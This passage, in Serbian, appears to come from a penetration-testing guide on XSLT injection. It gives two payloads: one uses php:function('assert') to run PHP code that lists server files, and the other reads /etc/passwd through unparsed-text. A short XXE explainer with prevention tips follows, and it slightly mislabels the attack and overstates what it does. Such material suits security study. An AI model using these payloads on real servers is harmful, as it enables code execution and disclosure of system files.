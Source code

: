Ova tehnika može biti korisna za dobijanje informacija o serveru, kao i za izvršavanje dodatnih napada na ciljani sistem. Važno je napomenuti da je ova tehnika specifična za servere koji podržavaju XSLT transformacije i da može biti ranjiva samo u određenim konfiguracijama.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
<xsl:copy-of name="asd" select="php:function('assert','var_dump(scandir(chr(46).chr(47)))==3')" />
<br />
</body>
</html>
```

## Čitanje fajlova

### **Interno - PHP**

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', ‘utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```

### **Interno - XXE**

XXE (Eksterni XML eksploatacioni napad) je vrsta napada koji se koristi za iskorišćavanje slabosti u obradi XML dokumenata. Ovaj napad omogućava napadaču da izvrši proizvoljan kod na serveru ili da izvrši druge zlonamerne radnje.

#### **Kako funkcioniše XXE napad?**

XXE napad se obično izvodi ubacivanjem zlonamernog XML sadržaja u aplikaciju koja obrađuje XML dokumente. Kada aplikacija pokuša da parsira XML dokument, ona može da izvrši eksterni HTTP zahtev ili da pristupi lokalnom fajlu na serveru. Ovo omogućava napadaču da izvrši proizvoljan kod ili da pristupi osetljivim informacijama.

#### **Kako sprečiti XXE napade?**

Da biste sprečili XXE napade, preporučuje se sledeće:

* Validirajte i filtrirajte ulazne XML dokumente kako biste uklonili ili neutralisali potencijalno zlonamerne sadržaje.
* Isključite eksterne entitete i DTD (Document Type Definition) obradu u XML parseru.
* Koristite bezbedne XML parsere koji automatski isključuju eksterne entitete i DTD obradu.
* Ažurirajte XML parsere na najnovije verzije koje ispravljaju poznate sigurnosne propuste.

#### **Zaključak**

XXE napadi predstavljaju ozbiljnu pretnju za aplikacije koje obrađuju XML dokumente. Implementacija odgovarajućih sigurnosnih mera, kao što je validacija i filtriranje ulaznih XML dokumenata, može pomoći u sprečavanju ovih napada.
